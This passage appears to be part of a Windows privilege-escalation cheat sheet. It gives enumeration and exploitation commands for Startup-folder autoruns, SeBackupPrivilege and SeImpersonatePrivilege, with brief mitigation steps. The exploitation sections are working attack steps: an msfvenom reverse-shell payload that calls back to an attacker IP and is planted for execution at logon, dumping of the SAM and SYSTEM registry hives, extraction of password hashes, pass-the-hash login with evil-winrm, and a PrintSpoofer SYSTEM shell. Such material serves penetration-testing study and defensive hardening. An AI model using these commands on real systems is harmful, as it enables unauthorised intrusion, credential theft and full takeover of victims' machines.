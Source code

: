 ### Mitigation
```powershell
$ reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "<KeyName>" /f
```

## Logon Autostart Execution (Startup Folder)
```powershell
$ icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
### Tool Enumeration
```powershell
$ accesschk.exe /accepteula "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```
### Exploitation
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.10.15 lport=9001 -f exe > shell.exe
```
Move the malicious executable file to 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup'.<br>
Open a listener on your Kali machine.<br>
Reboot the victim's machine and login as Adminstrator:
### Mitigation
```powershell
$ takeown /F "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /A /R /D Y
$ icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /reset /T /C /Q
```
## SeBackupPrivilege
### Enumeration
```powershell
$ whoami /priv
$ SharpUp.exe audit TokenPrivileges
```
### Exploitation
```powershell
$ mkdir C:\temp
$ reg save hklm\sam C:\temp\sam.hive
$ reg save hklm\system C:\temp\system.hive
$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
$ evil-winrm -i <ip> -u "Administrator" -H "<hash>"
```
## SeImpersonatePrivilege
### Enumeration
```powershell
$ whoami /priv
$ SharpUp.exe audit TokenPrivileges
```
### Exploitation
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
```powershell
$ PrintSpoofer64.exe -i -c cmd
```
## Potato Family JuicyPotato
